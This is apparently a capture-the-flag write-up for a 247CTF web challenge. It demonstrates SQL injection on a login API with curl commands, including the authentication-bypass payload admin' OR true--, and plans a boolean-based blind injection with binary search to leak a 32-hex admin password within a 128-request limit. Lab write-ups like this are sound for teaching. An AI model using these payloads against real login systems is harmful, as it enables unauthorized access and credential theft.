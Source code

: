 By appending single quote to username, the message was changed from `Invalid username and password!` to `SQLite error!`.

```console
$ curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin' OR true--" -d 'password=' -d 'api=c036edc7a7fdf17d6053fdb7b89655d7'
{"message":"Welcome back admin' OR true--!","result":"success"}
```

The login was successful with username is `admin' OR true--`.
However, the input username is directly output so we can only identify the success or failure of the SQL query.
Therefore, it seems impossible to use `UNION SELECT` payload to directly get records in a table.
Instead, Boolean-based SQLi is useful.

## SQLi with Binary Search

```console
$ curl -s https://4a86320794c65bcd.247ctf.com/api/get_token
{"message":"The API key has been reset to d144bdd53aae2e766d6d6dbefdb6f4a5!","result":"success"}

$ for i in $(seq 1 129); do echo $i; curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin" -d 'password=' -d 'api=d144bdd53aae2e766d6d6dbefdb6f4a5'; done
1
{"message":"Invalid username and password!","result":"invalid"}
...
128
{"message":"Invalid username and password!","result":"invalid"}
129
{"message":"Sorry, your API key is only valid for 128 uses!","result":"error"}
```

The API token by /api/get_token is valid for 128 requests.
Upon the 129th request, the API token becomes invalid, leading to the reset of the admin password.
Therefore, by SQLi at the /api/login endpoint to leak the admin password, the number of requests should be 128 or fewer.

> The admin user’s password uses the same character set and length as the flag (32-HEX).

The challenge describes that the admin password only includes characters 0123456789abcdef and its length is 32.
By Binary search, it can be identified a single digit in 4 attempts.
Therefore, with a total of 4 * 32 = 128 requests, we can leak the password for admin.

based on [Binary search algorithm | Procedure for finding the leftmost element](https://en.wikipedia.org/wiki/Binary_search_algorithm#Procedure_for_finding_the_leftmost_element):

> ```text
> function binary_search_leftmost(A, n, T):
>     L := 0
>     R := n
>     while L < R:
>         m := floor((L + R) / 2)
>         if A[m] < T:
>             L := m + 1
>         else:
>             R := m
>     return L
> ```
